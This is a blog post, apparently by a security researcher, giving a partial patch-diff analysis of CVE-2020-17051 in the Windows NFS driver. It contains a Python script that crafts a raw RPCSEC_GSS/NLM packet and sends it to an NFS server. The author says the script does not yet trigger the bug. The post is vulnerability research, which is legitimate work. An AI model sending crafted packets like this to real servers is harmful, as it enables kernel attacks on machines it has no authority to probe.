 ```yaml
---
layout: post
title: "CVE-2020-17051 (Interrupted)"
author: "nonetype"
categories: [pwn, windows]
tags: [kernel, 1-day]
---
```


Partial analysis-note for CVE-2020-17051 (interrupted on bug triggering steps)

- [CVE-2020-17051](#cve-2020-17051)
  - [Abstract](#abstract)
  - [Diff](#diff)
    - [2020-10 (v10.0.17763.1490)](#2020-10-v100177631490)
    - [2020-11 (v10.0.17763.1577)](#2020-11-v100177631577)
    - [Diff-analysis](#diff-analysis)
  - [Dynamic analysis](#dynamic-analysis)
- [Refs](#refs)

# CVE-2020-17051
## Abstract
- Patched on November patch tuesday
- RCE vulnerability on NFS write routine
  - It can chain with [CVE-2020-17056](https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2020-17056), which is Info-leak vulnerability in same driver(nfssvr.sys)
- Low exploit complexity (MS-official)
- High exploitability (MS-official)
- Wormable
- Needs anonymous write access
- Windows server 2008~2004 is vulnerable

## Diff
### 2020-10 (v10.0.17763.1490)
`C:\Windows\WinSxS\amd64_microsoft-windows-nfs-servercore_31bf3856ad364e35_10.0.17763.1490_none_a92fdeaed91b92a5`
- [nfssvr_2020_10.sys](/assets/dlls/nfssvr_2020_10.sys)

### 2020-11 (v10.0.17763.1577)
`C:\Windows\WinSxS\amd64_microsoft-windows-nfs-servercore_31bf3856ad364e35_10.0.17763.1577_none_a9226eb6d9262f4f`
- [nfssvr_2020_11.sys](/assets/dlls/nfssvr_2020_11.sys)

### Diff-analysis
![Bindiff](https://i.imgur.com/sia0rDH.png "Diff 2020-10 vs 2020-11")
Checking the diff, found `NlmMapUserAndGetToken`'s if-state is changed.(Added some check logics)

![Diff-hexrays](https://i.imgur.com/GXQgCxu.png "Hex-rays diff result")
We can see the L11-L28's `*(v22+1000)` check logic is added.

## Dynamic analysis
To trigger & verify the vulnerability, we must send NLM share/unshare packet.

> For more information of NLM, see here
> 
> [https://tools.ietf.org/html/rfc1813](https://tools.ietf.org/html/rfc1813)

on user creates file on remote NFS server, kernel(or some program) sends NLM packet to server for authentication(It's my guess, may be different)

and `v23` variable on above, is NLM's RPC Credential->flavor value.

Flavor value in normal packet is 1(AUTH_UNIX or AUTH_SYS), but the bug needs 6(RPCSEC_GSS) on check routine in L11/L9.

So i wrote some python script to call `NlmMapUserAndGetToken` function.

It was hardest part on this job. (Analysis & Building packet structure is always hard..)

This code calls `NlmMapUserAndGetToken`, but needs some fix to trigger bug.
```python
import struct
import socket

def buildNew():
    frag = '80000084'
    xid = '00000202'
    msgType = '00000000'
    rpcVersion = '00000002'
    base = frag + xid + msgType + rpcVersion
    base += '000186b50000000400000014' # Prog, ProgVer, Procedure
    # Credential starts
    flavor = '00000006'
    length = '00000014'
    gssVersion = '00000001'
    gssProcedure = '00000000'
    gssSequence = '00000000'
    gssService = '00000000'
    gssHandleLen = '00000000'
    verifier_flavor = '00000000'
    verifier_credSize = '00000000'
    
    gssData = ''
    nfs = '000000000000000f4445534b544f502d54344b513838370000000020fd9c010000000600560300000000040043e2a4324802cf1418bb03baf43602f600000004000008ec000000030000000300000000'

    nfs = gssData + nfs

    return base + flavor + length + gssVersion + gssProcedure + gssSequence + gssService + gssHandleLen + verifier_flavor + verifier_credSize + nfs


def getTest(b):
    packet = b
    res = bytes.fromhex(packet)

    return res

def main():
    # test
    sock = socket.socket(socket.AF_INET)
    sock.settimeout(10)
    sock.connect(('10.0.0.100', 2049))
    
    sock.send(getTest(buildNew()))
```


# Refs
- https://www.mcafee.com/blogs/other-blogs/mcafee-labs/cve-2020-17051-remote-kernel-heap-overflow-in-nfsv3-windows-server/
- https://www.iana.org/assignments/rpc-authentication-numbers/rpc-authentication-numbers.xhtml